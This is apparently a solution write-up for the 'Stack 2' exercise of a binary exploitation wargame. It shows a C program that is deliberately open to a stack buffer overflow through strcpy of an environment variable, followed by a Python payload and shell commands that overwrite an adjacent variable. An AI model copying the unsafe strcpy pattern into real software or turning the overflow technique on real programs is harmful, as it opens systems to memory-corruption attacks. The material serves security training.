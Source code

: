 # Stack 2

Stack 2 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
This program requires editing the environment variable *GREENIE* which is used as input. Thus, writing an oversized value into *GREENIE* causes a buffer overflow. However, the special variable meant to overwrite *modified* cannot be copy pasted, which makes things a little interesting.

stack2.py
```python
print("A"*64+"\x0a\x0d\x0a\x0d")
```
Shell commands
```shell
python stack2.py > exploit
GREENIE=$(cat exploit)
export GREENIE
./stack2
```
Output
```shell
you have correctly modified the variable
```
